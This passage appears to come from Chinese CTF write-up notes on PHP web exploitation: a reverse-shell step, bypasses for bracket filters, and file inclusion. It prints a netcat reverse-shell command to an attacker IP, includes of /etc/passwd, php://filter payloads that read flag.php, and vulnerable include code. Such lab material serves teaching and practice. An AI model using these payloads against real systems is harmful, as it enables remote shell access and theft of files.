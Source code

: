 **步骤三：**反弹回来的shell查看flag

192.168.1.161下创建index.html,内容如下：

```
nc 192.168.1.161 7777 -e /bin/bash
```



# 9.括号过滤绕过

php中有许多不用括号的函数

```
<?php
echo 123;
print 123;
die;
include "/etc/passwd";
require "/etc/passwd";
include_once "/etc/passwd";
require_once "etc/passwd";
?>
```

payload:

```
?cmd=include"$_GET[url]"?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

不加分号也可以

```
?cmd=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

# 10.文件包含

 include($c.".php");  //限制了.php后缀

data://与文件包含函数结合时，用户输入的data://流会被当做php文件执行

```
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
